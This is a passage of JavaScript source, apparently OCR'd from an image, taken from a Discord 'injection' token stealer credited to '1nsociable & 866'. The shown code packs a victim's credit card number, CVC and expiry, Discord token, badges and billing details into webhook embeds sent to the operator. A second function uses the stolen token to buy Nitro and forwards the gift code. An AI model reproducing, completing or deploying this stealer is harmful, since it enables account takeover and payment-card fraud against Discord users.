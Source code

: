             value: `Credit Card Number: **${number}**\nCVC: **${cvc}**\nCredit Card Expiration: **${expir_month}/${expir_year}**`,
            inline: true,
          },
          {
            name: '**Discord Info**',
            value: `Nitro Type: **${nitro}**\nBadges: **${badges}**\nBilling: **${billing}**`,
            inline: true,
          },
          {
            name: '**Token**',
            value: `\`${token}\``,
            inline: false,
          },
        ],
        author: {
          name: json.username + '#' + json.discriminator + ' | ' + json.id,
          icon_url: `https://cdn.discordapp.com/avatars/${json.id}/${json.avatar}.webp`,
        },
        footer: {
          text: '🎉・Discord Injection By 1nsociable & 866・https://discord.gg/stralistrarp',
        },
      },
    ],
  };
  if (config.ping_on_run) content['content'] = config.ping_val;
  hooker(content);
};

const nitroBought = async (token) => {
  const json = await getInfo(token);
  const nitro = getNitro(json.premium_type);
  const badges = getBadges(json.flags);
  const billing = await getBilling(token);
  const code = await buyNitro(token);
  const content = {
    username: config.embed_name,
    content: code,
    avatar_url: config.embed_icon,
    embeds: [
      {
        color: config.embed_color,
        fields: [
          {
            name: '**Nitro bought!**',
            value: `**Nitro Code:**\n\`\`\`diff\n+ ${code}\`\`\``,
            inline: true,
          },
          {
            name: '**Discord Info**',
            value: `Nitro Type: **${nitro}**\nBadges: **${badges}**\nBilling: **${billing}**`,
            inline: true,
          },
          {
            name: '**Token**',
            value: `\`${token}\``,
            inline: false,
          },
        ],
        author: {
          name: json.username + '#' + json.discriminator + ' | ' + json.id,
          icon_url: `https://cdn.discordapp.com/attachments/1159975163685765222/1174314991067869184/a721f7b61594fec24e334fc54136b99d.png?ex=6567250f&is=6554b00f&hm=4122a71ba2f370e460f44ff9f0c0d1d25f11370ee0818c227417614220a61e1d&`,